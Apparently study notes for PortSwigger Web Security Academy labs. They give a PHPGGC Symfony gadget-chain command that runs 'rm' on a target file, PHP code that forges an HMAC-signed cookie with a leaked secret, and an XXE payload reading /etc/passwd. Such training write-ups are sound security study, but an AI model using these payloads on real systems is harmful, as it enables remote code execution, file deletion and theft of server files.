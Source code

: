 Technique:
Download the "PHPGGC" tool and execute the following command:

`./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64`
`<?php $object = "OBJECT-GENERATED-BY-PHPGGC"; $secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP"; $cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}'); echo $cookie;`

XXE Injection:

XML external entity
XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

In some situations, an attacker can escalate an XXE attack to compromise the underlying server or other back-end infrastructure, by leveraging the XXE vulnerability to perform [server-side request forgery](https://portswigger.net/web-security/ssrf) (SSRF) attacks.

- Allows attacker to interfere with application's processing of XML data.
- Allows attacker to view files on application server filesystem and to interact with any back-end or external systems that the application itself can access.

Lab 01: Exploiting XXE using external entities to retrieve files

- If "Check stock" feature that parses XML input and returns any unexpected values in the response.

- Intercepting the **POST** request, and inserting in between XML declaration

```

        <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

```

- Replace productId number as `&xxe;`

- Response should contain "Invalid product ID" follwed by contents of `/etc/passwd` file.

  

```

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<stockCheck>

<productId>

&xxe;

</productId>

<storeId>

1

</storeId>

</stockCheck>

```
